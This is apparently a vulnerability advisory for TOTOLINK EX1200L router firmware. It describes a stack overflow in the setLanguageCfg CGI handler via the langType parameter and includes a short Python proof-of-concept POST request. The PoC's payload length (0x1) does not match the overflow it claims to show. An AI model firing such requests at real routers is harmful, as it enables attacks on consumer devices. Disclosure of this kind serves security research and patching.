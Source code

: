 ## Overview

- Manufacturer's website: https://www.totolink.net/
- Firmware download website:
  - https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/217/ids/36.html

## Affected version

totolink EX1200L_Firmware V9.3.5u.6146_B20201023

## Vulnerability details

A stack overflow vulnerability exists in the `sub_4231ac`(`setLanguageCfg`) function of program `/www/cgi-bin/cstecgi.cgi` in EX1200L V9.3.5u.6146_B20201023. The function receives the `langType` parameter from the user request and splices it into the variable `v7` on the stack, causing a stack overflow.

![image1](image/1.png)

## PoC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"


cookie = {"Cookie":"uid=1234"}
data = {
"topicurl":"setLanguageCfg",
"langType":"a"*0x1,
"langFlag":"1",
}

response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print(response)
```

Here is a screenshot of stack overflow:

![demo](image/demo.png)
